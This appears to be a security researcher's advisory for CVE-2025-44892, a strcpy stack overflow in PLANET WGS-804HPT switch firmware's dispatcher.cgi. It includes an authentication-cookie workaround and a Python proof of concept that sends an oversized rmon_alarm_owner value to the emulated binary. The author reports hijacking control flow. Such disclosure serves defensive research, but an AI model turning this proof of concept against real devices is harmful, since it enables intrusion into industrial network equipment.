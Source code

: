 ```yaml
---
title: web_rmon_alarm_post_rmon_alarm_owne
date: 2025-04-20 17:09:50
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44892



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2







# web_rmon_alarm_post_rmon_alarm_owne

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_rmon_alarm_post_rmon_alarm  contains a stack overflow vulnerability.

The stack overflow can be triggered by ownekey value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451483586624.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417103724700](../res/image-20250417103724700-17448574458195.png)



![image-20250417103751148](../../../work/Planet/Planet/笔记2.assets/image-20250417103751148-17448574727456.png)



Through IDA, it can be seen that the stack space is 0xb8.

﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x2107
var_name = "rmon_alarm_owner"
b = 'a' * 0x300


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)




```

# Attack result

![image-20250417103828321](../res/image-20250417103828321-17448575096087.png)

![image-20250417103930828](../res/image-20250417103930828-17448575719938.png)



Through the above image, we can see that we have overflowed to 0x264 and successfully hijacked the control flow. If necessary, more can be overflowed.

